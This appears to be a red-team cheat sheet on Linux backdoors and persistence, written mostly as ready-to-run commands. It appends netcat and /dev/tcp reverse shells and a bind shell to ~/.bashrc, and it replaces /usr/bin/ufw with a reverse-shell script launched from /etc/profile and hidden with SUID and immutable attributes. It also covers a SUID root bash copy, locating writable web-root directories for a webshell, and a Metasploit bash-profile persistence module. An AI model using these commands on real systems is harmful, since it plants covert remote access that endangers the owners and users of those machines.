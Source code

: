 # Backdoors

## 01 - Unix Shell

### 1.1 - Bashrc

- Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

- Bind Shell

`$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc`

### 1.2 - Bash Profiles

- Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

### 1.3 - SUID

```
user@debian:~$ sudo su -
root@debian:/home/user# cp /bin/bash /tmp/junk
root@debian:/home/user# chmod +xs /tmp/junk
root@debian:/home/user# ls -l /tmp/junk
-rwsr-sr-x 1 root root 1190928 Oct 20 13:55 bash-copy
root@debian:/home/user# exit
user@debian:~$ /tmp/junk -p
root@debian:/home/user# whoami
root
```

### 1.4 - Webshell

- Find writable directories in the web root directory the drop a [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Callback Shells/Webshells/Webshells|webshell]].

`$ find /var/www/html -writable -type d 2>/dev/null`

### 1.5 - OpenSSH

TODO: Fill this info

## 02 - Metasploit

### 2.1 - Bash Profile

```
msf > use exploit/linux/local/bash_profile_persistence

msf exploit(linux/local/bash_profile_persistence) > options

Module options (exploit/linux/local/bash_profile_persistence):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASH_PROFILE  ~/.bashrc        yes       Target Bash profile location. Usually ~/.bashrc or ~/.bash_profile.
   PAYLOAD_DIR   /var/tmp/        yes       Directory to write persistent payload file.
   SESSION                        yes       The session to run this module on


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/local/bash_profile_persistence) > set bash_profile </path/to/bash_rc_file>

msf exploit(linux/local/bash_profile_persistence) > set payload_dir </path/to/directory>

msf exploit(linux/local/bash_profile_persistence) > set lhost <IP>

msf exploit(linux/local/bash_profile_persistence) > set lport <PORT>

msf exploit(linux/local/bash_profile_persistence) > set session <session_id>

msf exploit(linux/local/bash_profile_persistence) > run
```

---
## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)

- [Pikami: Backdooring OpenSSH Server](https://pikami.org/blog/backdooring-openssh-server/)

- [Infecting SSH Public Keys with Backdoors](https://blog.thc.org/infecting-ssh-public-keys-with-backdoors)